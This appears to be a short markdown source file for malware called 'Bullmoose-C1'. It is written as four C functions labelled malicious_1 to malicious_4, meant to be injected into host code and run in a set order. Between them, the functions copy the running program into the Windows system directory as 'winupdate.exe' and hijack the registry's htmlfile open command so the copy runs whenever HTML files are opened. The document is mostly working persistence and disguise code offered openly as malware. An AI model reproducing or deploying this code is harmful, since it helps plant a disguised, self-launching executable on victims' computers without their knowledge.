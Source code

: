 # Bullmoose-C1

Bullmoose-C1 is `4321`.

Making necessary variables gloab.
```c
char MyPath[256];
char CpyPath[256];
HKEY Key32;
```

The `*` in `malicious_*` is the order injecting in the host code.

The `*` in `if ((* - order) == 1)` is the order that malicious code should run.

```c
void malicious_1() {
  pthread_mutex_lock(&mutex);
  if ((4 - order) == 1) {
    order = 4;
    CopyFile(MyPath, CpyPath, FALSE);
    RegSetValueEx(Key32, "", 0, REG_SZ, CpyPath, strlen(CpyPath));
    RegCloseKey(Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_2() {
  pthread_mutex_lock(&mutex);
  if ((3 - order) == 1) {
    order = 3;
    // RegOpenKeyEx为打开注册表项
    RegOpenKeyEx(HKEY_CLASSES_ROOT, 
      "htmlfile\\shell\\opennew\\command", 0,
      KEY_WRITE, &Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_3() {
  pthread_mutex_lock(&mutex);
  if ((2 - order) == 1) {
    order = 2;
    strcat(CpyPath, "\\winupdate.exe");
    strcat(CpyPath, " %1");
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_4() {
  pthread_mutex_lock(&mutex);
  if ((1 - order) == 1) {
    order = 1;
    GetModuleFileName(NULL, MyPath, sizeof(MyPath));
    GetSystemDirectory(CpyPath, sizeof(CpyPath));
  }
  pthread_mutex_unlock(&mutex);
}
```